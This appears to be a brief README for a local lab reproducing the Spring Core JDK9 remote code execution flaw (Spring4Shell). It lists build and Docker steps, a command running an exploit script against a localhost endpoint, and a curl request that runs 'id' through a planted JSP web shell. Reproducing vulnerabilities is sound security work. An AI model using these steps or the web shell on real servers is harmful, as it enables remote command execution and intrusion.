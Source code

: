 # How to reproduce
./mvnw clean package

docker-compose up --build

python3 exp.py --url http://localhost:8080/springshell/greeting

curl --output - "http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id"

https://www.praetorian.com/blog/spring-core-jdk9-rce/